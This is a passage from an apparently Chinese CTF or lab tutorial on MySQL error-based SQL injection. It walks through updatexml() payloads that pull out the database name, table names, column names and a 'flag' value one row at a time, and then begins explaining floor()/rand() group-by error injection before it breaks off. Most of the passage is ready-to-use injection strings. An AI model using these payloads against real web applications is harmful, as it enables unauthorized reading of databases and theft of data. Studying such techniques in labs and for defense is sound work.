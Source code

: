 (2)updatexml报错注入
爆库

```
1 and updatexml(1,concat(0x7e,database(),0x7e),1)
```

爆表

```
1 and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database()),0x7e),1)
```

因为报错注入只显示一条记录，所以需要使用limit语句。构造的语句如下所示：

```
1 and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)
```

```
1 and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x7e),1)
```

得到表名为:news和flag，接下来爆字段名

```
1 and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='news'limit 0,1),0x7e),1)
```

```
1 and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),0x7e),1)
```

得到flag表中，有一个字段名为flag的字段,爆字段内容

```
1 and updatexml(1,concat(0x7e,(select flag from flag limit 0,1),0x7e),1)
```

```
1 and updatexml(1,concat(0x7e,mid((select flag from flag),4),0x7e),1)
```

使用updatexml()函数一样可以得到flag
(3)floor报错注入
一、概述
原理：利用

```
select count(*),floor(rand(0)*2)x from information_schema.character_sets group by x
```


导致数据库报错，通过concat函数连接注入语句与floor(rand(0)*2)函数，实现将注入结果与报错信息回显的注入方式。

二、函数理解
打开MYSQL终端，创建数据库
